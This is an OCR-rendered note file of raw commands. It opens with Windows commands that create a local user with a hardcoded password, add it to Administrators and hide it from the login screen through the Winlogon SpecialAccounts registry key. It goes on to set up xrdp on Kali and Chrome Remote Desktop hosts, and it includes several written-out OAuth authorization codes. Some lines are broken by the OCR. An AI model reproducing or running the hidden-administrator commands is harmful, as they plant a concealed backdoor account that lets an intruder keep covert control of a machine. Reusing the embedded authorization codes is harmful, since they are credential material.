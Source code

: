 net user Aminshahdi @Gddrgddgg0070 /add

net localgroup Administrators Aminshahdi/add

reg add

"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist"

/v Aminshahdi/t REG

DWORD /d

0/f


for remote dekstop :
sudo apt update && sudo apt -y upgrade
sudo apt -y install kali-desktop-xfce
sudo apt-get install xrdp
sudo cp /etc/xrdp/xrdp.ini /etc/xrdp/xrdp.ini.bak
sudo sed -i 's/3389/3390/g' /etc/xrdp/xrdp.ini
sudo sed -i 's/max_bpp=32/#max_bpp=32\nmax_bpp=128/g' /etc/xrdp/xrdp.ini
sudo sed -i 's/xserverbpp=24/#xserverbpp=24\nxserverbpp=128/g' /etc/xrdp/xrdp.ini
sudo /etc/init.d/xrdp start



https://dl.google.com/linux/direct/chrome-remote-desktop_current_amd64.deb



DISPLAY= /opt/google/chrome-remote-desktop/start-host --code="4/0AdLIrYc5M1Hpz_gMNBfLuR1Sm54pn5qi8Lee9aDajn-SFIXbFUTftXdYwLTqqiWdDarf1w" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=$(hostname)


Chrome Remote Desktop:

https://dl.google.com/linux/direct/chrome-remote-desktop_current_amd64.deb

Google Chrome:

https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb

XFCE Desktop Environment:

sudo DEBIAN_FRONTEND=noninteractive \
    apt install --assume-yes xfce4 desktop-base dbus-x11 xscreensaver

sudo bash -c 'echo "exec /etc/X11/Xsession /usr/bin/xfce4-session" > /etc/chrome-remote-desktop-session'
    
    
sudo systemctl disable lightdm.service


DISPLAY= /opt/google/chrome-remote-desktop/start-host --code="4/0AdLIrYcuQrQEdwgMIyazyMlZMxY7XJhgL31zPlzpUs4JRyX92O_rCD2XtcSGEwaCnF8bIg" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=$(hostname)



DISPLAY= /opt/google/chrome-remote-desktop/start-host --code="4/0AdLIrYdqicNI4_CGkJ1RcuzaIf45JBRvgMhTXTx_IQSy4uTkmBihmFM58Aeu-MBXiosZQQ" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=$(hostname)
